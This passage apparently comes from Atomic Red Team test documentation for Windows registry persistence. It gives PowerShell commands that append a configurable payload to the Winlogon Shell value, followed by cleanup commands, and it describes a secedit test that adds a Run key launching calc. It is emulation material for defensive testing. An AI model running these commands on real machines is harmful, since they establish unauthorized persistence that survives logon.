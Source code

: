 <br/>
<br/>

## Atomic Test #15 - HKLM - Modify default System Shell - Winlogon Shell KEY Value

This test change the default value of HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell from "explorer.exe" to the full path of "C:\Windows\explorer.exe"
to log a change to the key's default value without breaking boot sequence.
An atacker will alternatively replace this with a custom shell.

**Supported Platforms:** Windows

**auto_generated_guid:** 1d958c61-09c6-4d9e-b26b-4130314e520e

#### Inputs:

| Name    | Description | Type   | Default Value                   |
| ------- | ----------- | ------ | ------------------------------- |
| payload | what to run | string | C:&#92;Windows&#92;explorer.exe |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell");
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell-backup" -Value "$oldvalue";
$newvalue = $oldvalue + ", #{payload}";
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "$newvalue"
```

#### Cleanup Commands:

```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Shell-backup');
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "$oldvalue";
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name 'Shell-backup'
```

<br/>
<br/>

## Atomic Test #16 - secedit used to create a Run key in the HKLM Hive

secedit allows to manipulate the HKLM hive of the Windows registry. This test creates a Run key with the keyname calc having calc.exe as the value in the HKLM hive.
[Reference](https://blueteamops.medium.com/secedit-and-i-know-it-595056dee53d)
